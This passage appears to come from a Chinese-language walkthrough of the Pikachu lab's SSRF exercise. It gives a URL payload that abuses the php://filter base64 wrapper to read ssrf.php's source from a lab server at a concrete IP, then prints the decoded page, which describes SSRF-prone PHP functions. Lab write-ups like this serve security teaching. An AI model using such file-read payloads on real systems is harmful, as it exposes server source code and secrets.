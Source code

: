 这里其实我们已经得到了 `ssrf.php` 的文件，但是我们并不希望它被解析，而是希望拿到 `ssrf.php` 的源码，做法是先把它加密成 base64，然后再解密，修改 URL 为：

`http://175.178.126.31:8083/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-
encode/resource=ssrf.php`

![](https://img.wukaipeng.com/2023/11/05-102212-image-20231105102212467.png)

用 [Base64 解密工具](https://t.he3app.com/dt46) 解密得到：

```php
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */


$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);

if ($SELF_PAGE = "ssrf.php"){
    $ACTIVE = array('','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','active open','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');
}

$PIKA_ROOT_DIR =  "../../";
include_once $PIKA_ROOT_DIR.'header.php';






?>


<div class="main-content">
    <div class="main-content-inner">
        <div class="breadcrumbs ace-save-state" id="breadcrumbs">
            <ul class="breadcrumb">
                <li>
                    <i class="ace-icon fa fa-home home-icon"></i>
                    <a href="ssrf.php"></a>
                </li>
                <li class="active">概述</li>
            </ul>
        </div>
        <div class="page-content">

         <b>SSRF(Server-Side Request Forgery:服务器端请求伪造)</b>
         <p>其形成的原因大都是由于服务端<b>提供了从其他服务器应用获取数据的功能</b>,但又没有对目标地址做严格过滤与限制</p>
            导致攻击者可以传入任意的地址来让后端服务器对其发起请求,并返回对该目标地址请求的数据<br>
            <br>
            数据流:攻击者----->服务器---->目标地址<br>
            <br>
            根据后台使用的函数的不同,对应的影响和利用方法又有不一样
            <pre style="width: 500px;">
PHP中下面函数的使用不当会导致SSRF:
file_get_contents()
fsockopen()
curl_exec()
            </pre><br>
```